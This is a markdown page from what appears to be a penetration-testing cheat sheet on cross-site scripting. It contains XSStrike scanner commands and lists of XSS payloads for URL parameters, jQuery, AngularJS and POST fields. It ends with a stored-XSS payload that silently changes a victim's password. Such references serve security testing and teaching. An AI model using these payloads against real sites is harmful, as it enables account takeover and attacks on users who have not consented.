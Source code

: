 ```yaml
---
title: Cross-Site Scripting (XSS)
desc: 
tags: [Burp, Cross, Site, Web, XSS]
alts: [Cookie-Hijacking]
render_with_liquid: true
---
```


{% raw %}

## 1. Automation

- **[XSStrike](https://github.com/s0md3v/XSStrike){:target="_blank"}**

    XSS scanner.

    ```sh
    # GET request
    python xsstrike.py -u http://vulnerable.com/?param=test

    # POST reqeust
    python xsstrike.py -u http://vulnerable.com/post --data "username=test&email=test&comment=test"

    # data as JSON
    python xsstrike.py -u http://vulnerable.com/comment --data '{"comment": "test"}' --json
    ```

<br />


## 2. Manual

1. **URL Parameters**

    1. **Common Payloads**

        ```
        /?q=<script>alert(1)</script>
        /?q="><script>alert(1)</script>
        /?q=<script>alert(1)</script>
        /?q="><script>alert(1)</script>
        /?q='></script><script>alert(1)</script>

        /?q=" src=1 onerror=alert(1)>
        /?q=<><img src=1 onerror=alert(1)>
        /?q="><img src=1 onerror=alert(1)>
        /?q="></span><img src=1 onerror=alert(1)>
        /?q="><svg onload=alert(1)>

        /?q=javascript:alert(1)
        /?q=\"-alert(1)//

        /?q=%3Cscript%3Ealert%281%29%3C%2Fscript%3E

        /?q=<a onmouseover=alert(1)>click</a>
        /?q=" onmouseleave='alert(1)'">

        /?q=<img src="jav ascript:alert(1)">
        /?q=<img src="jav&#x09;ascript:alert(1)">
        /?q=<img src="jav&#x0A;ascript:alert(1)">


        /?q=&subparam=--><script>alert(1)</script>
        /index.php#value='><script>alert(1)</script>
        ```

    2. **JQuery**

        ```
        https://vulnerable.com/#<img src=1 onerror=alert(1)>
        <iframe src="https://vulnerable.com/#" onload="this.src+='<img src=1 onerror=alert(1)>'">
        ```

    3. **AngularJS**

        If you find **"<html ng-app>"** or **"<div ng-app>"** in the HTML source code, you may be able to abuse it by XSS.

        ```
        https://vulnerable.com/?search={{$on.constructor('alert(1)')()}}
        ```

2. **POST Parameters**


    POST params are almost the same as URL params, so try the common payloads of section 1.  
    Ant the following ones.

    ```
    title=<a href="http://localhost/newUser?username=test&password=test">test</a>&comment=hello
    ```

    1. **Change User Profiles**

        If the website allows users to change passwords from the URL params...

        ```
        /profile?new_password=password
        ```

        Submit the payload to user input forms such as messages, comments, forums...

        ```
        <script>fetch('/profile?new_password=password');</script>
        ```

{% endraw %}